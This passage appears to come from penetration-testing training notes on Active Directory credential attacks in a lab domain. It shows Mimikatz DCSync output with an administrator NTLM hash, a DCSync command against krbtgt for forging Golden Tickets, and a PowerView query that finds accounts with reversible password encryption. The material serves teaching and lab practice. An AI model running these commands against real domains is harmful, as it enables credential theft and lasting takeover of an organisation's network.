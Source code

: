 ```
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```

### **Targeting krbtgt for Golden Tickets**

```
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt
```

**Why Target krbtgt:**
- **Golden Ticket Creation**: krbtgt hash allows creation of Golden Tickets
- **Ultimate Persistence**: Golden Tickets provide long-term domain access
- **Domain Admin Equivalent**: Full administrative access to entire domain

---

## 🔐 **Reversible Encryption Password Storage**

### **Understanding Reversible Encryption**

Some Active Directory accounts may be configured with **"Store password using reversible encryption"** option. This setting:
- **Not cleartext storage**: Passwords stored using RC4 encryption
- **Decryptable**: Key stored in registry (Syskey) accessible by Domain Admins
- **Legacy support**: Required for certain authentication protocols
- **Security risk**: Essentially equivalent to cleartext passwords

### **Enumerating Accounts with Reversible Encryption**

#### **Using PowerView**
```powershell
# Import PowerView
cd C:\Tools\
Import-Module .\PowerView.ps1

# Find accounts with reversible encryption enabled
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol
```
